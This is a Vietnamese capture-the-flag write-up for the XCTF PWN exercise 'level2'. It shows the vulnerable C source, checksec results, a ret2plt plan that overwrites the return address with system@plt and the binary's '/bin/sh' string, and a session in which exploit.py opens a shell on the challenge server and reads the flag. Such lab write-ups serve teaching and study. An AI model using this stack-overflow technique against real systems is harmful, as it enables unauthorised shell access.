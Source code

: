 # XCTF - PWN Exercise - level2

```c
#include<stdio.h>

ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  system("echo Input:");
  return read(0, buf, 0x100u);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/1_level2 λ checksec level2   
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/1_level2/level2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Hàm `read()` cho nhập 0x100 = 256 mà buf[136] nên có thể buffer overflow, không có hàm giúp đọc flag hay thực thi shellcode. Ý tưởng là do hàm `system()` được gọi đến nên có `system@plt` vì vậy chỉ cần đi đè địa chỉ trả về bằng địa chỉ của `system@plt` là có thể thực thi shell. Vấn đề là ta còn thiếu chuỗi `/bin/sh` làm đối số.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/1_level2 λ strings -a -tx level2 | grep /bin/sh
   1024 /bin/sh
```

Tôi tìm thấy trong file có sẵn chuỗi `/bin/sh` và offset của nó là `0x1024`. Ta dễ dàng tìm được địa chỉ của chuỗi `/bin/sh`.

```
pwndbg> x/10s 0x0804A024
0x804a024 <hint>:	"/bin/sh"
0x804a02c <completed.7181>:	""
0x804a02d:	""
0x804a02e:	""
0x804a02f:	""
0x804a030:	<error: Cannot access memory at address 0x804a030>
0x804a030:	<error: Cannot access memory at address 0x804a030>
0x804a030:	<error: Cannot access memory at address 0x804a030>
0x804a030:	<error: Cannot access memory at address 0x804a030>
0x804a030:	<error: Cannot access memory at address 0x804a030>
```

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/1_level2 λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 63253: Done
[*] Switching to interactive mode
$ ls
bin
dev
flag
level2
lib
lib32
lib64
$ cat flag
cyberpeace{a47dd0c3f651ec778da26ae79c5c255a}
$  
```
